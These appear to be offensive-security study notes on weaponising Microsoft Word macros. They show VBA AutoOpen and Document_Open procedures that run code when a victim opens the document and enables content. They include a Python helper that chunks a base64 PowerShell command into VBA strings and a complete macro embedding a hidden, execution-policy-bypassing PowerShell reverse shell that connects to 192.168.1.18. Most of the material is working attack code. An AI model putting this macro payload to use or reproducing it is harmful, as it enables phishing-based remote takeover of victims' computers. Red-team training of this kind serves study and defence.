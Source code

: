 # Office Macros

Installation: Use [this link](https://officecdn.microsoft.com/db/492350F6-3A01-4F97-B9C0-C7C6DDF67D60/media/en-US/ProPlus2019Retail.img) to install microsoft word with a free trial by clicking the `x` when asked to enter a product key.

## Fundamentals

Macros are written in Visual Basic for Applications (VBA)

First we need to create a new word file and save it in the `.doc` format. This is because the newer `.docx` file type cannot save macros without attaching a containing template. `.docm` also works.

Find macros menu under `View -> Macros`

![](Attachments/a53145a35ae8a3b5ec898c0412736712-csa_macro_view2.png)

We can now create a new macro called `MyMacro`, making sure to set the location to within the current document.

![](Attachments/af16daddd29d2bff910e99977a3ddc68-csa_macro_macrocreate2.png)

The following example is a proof of concept. `AutoOpen()` and `Document_Open()` are both procedures that can call our custom procedure and run our code when our word document is opened. They differ slightly depending on the manner in which the document is opened and both cover special cases which the other one doesn't and therefore we use both.

```vb
Sub AutoOpen()
	MyMacro
End Sub

Sub Document_Open()
	MyMacro
End Sub

Sub MyMacro()
    CreateObject("Wscript.Shell").Run "powershell"
End Sub
```

The victim must click `Enable Content` in order to trigger the macro.

In order to create a reverse shell we can use the `PowerShell #3 (Base64)` reverse shell from [revshells](https://www.revshells.com/). More details can be found [here](../../11%20Windows/Windows%20Shells.md).

In order to create the payload for us to paste into visual basic, we can use the following python script

```python
str = "powershell.exe -nop -w hidden -noni -ep bypass -e JABjAGwAaQBlAG4A..."

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```

```vb
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgA"
    Str = Str + "D0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0"
    Str = Str + "ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAa"
    Str = Str + "QBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADEALgAxADgAIgA"
    Str = Str + "sADkAMAAwADEAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjA"
    Str = Str + "GwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFs"
    Str = Str + "AYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4AL"
    Str = Str + "gA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAA"
    Str = Str + "kAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkA"
    Str = Str + "GIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGU"
    Str = Str + "AbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAd"
    Str = Str + "ABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB"
    Str = Str + "5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0A"
    Str = Str + "C4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQ"
    Str = Str + "AUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAa"
    Str = Str + "QApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAA"
    Str = Str + "gACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTA"
    Str = Str + "HQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACA"
    Str = Str + "APQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAI"
    Str = Str + "gAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgA"
    Str = Str + "gACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlA"
    Str = Str + "HgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEk"
    Str = Str + "AKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAY"
    Str = Str + "wBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAA"
    Str = Str + "kAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5A"
    Str = Str + "HQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4"
    Str = Str + "ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAb"
    Str = Str + "ABvAHMAZQAoACkA"
    
    CreateObject("Wscript.Shell").Run Str
End Sub
```

